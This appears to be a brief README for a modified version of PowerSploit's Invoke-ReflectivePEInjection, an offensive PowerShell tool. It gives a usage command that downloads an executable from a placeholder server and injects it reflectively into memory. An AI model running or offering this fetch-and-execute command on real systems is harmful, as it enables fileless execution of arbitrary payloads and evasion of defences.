 # my-invoke-reflectivepeinjection
based on https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

command:
invoke-reflectivepeinjection -peurl http://yourserver/pe.exe -forceaslr

only works with straightforward executing PEs, don't provide executables expecting arguments or that spawn pseudo shells
